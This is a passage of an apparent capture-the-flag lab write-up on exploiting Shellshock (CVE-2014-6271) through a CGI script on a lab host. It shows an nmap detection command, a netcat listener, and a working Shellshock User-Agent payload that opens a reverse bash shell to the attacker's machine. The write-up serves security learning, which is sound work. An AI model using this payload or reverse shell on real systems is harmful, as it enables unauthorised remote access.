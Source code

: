 ![Image](/assets/Screenshot 2024-09-07 at 5.42.42 PM.png)

In doing so, we're able to find a `/user.sh` file hidden away. When we download it and view its contents, this is what we see.

![Image](/assets/Screenshot 2024-09-08 at 4.45.12 PM.png)

Upon doing research, it looks like we're dealing with CVE-2014-6271, or "ShellShock / Bashdoor". It's a big deal because it allows attackers to execute bash commands in "safe" environments, like places where environment variables are defined. Most websites would take user input when defining the environment variables, but most notoriously on CGI-based servers. Something like the User-Agent string is an example of an EV, and because it's completely attacker controlled, this allows remote code execution on vulnerable hosts.

As a POC, lets use Burp to capture a request/response to http://10.10.10.56/cgi-bin/user.sh and break down what we're looking for, and how we can exploit this Bash syntax.

![Image](/assets/Screenshot 2024-09-08 at 4.57.50 PM.png)

A few very important things to note here... Firstly, make sure that the GET header is pointed where we need. Thats `/cgi-bin/user.sh`. This is simple, but very important to find what your looking for. Had we left it, we'd be getting pointed back to the host's main web directory.  Secondly, note the `echo` command to probe the server, and the information we're able to gather from the server. We've got group, service, and user info. Lastly, notice how we toyed with the User-Agent, as discussed in the POC.

Another few things to note that I found through research... When listing out $PATH, it's got to be full. This is because when we send a request, it's inherently empty in the ShellShock environment. Also, `echo` seems to be necessary as the first command as it recieves the 200-OK from the server, and leading with others causes a crash (500). 

We can take this and use an nmap script to validate our suspicions. The script below will check what we need.

```
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56
```

![Image](/assets/Screenshot 2024-09-08 at 5.18.34 PM.png)

It looks like we're cooking. (Pro-Tip: If you simultaneously capture in Wireshark, you can see other Environmental Variables that are susceptible to ShellShock)

### Initial Access

Set up a listener. It's also important to always wrap it using `rlwrap` when you can for functionality purposes - specifically using the arrow keys once a shell is popped.

`rlwrap nc -nlvp 4321`

Crafting a callback script, we'll send our request under `User Agent:` in Burp and send for a response. The webpage should hang, but you'll get a shell. Keep in mind for future reference as well, you can also base encode this to make minimize the possibility of error when it's being parsed by the webserver.

````
 () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.3/4321 0>&1
````
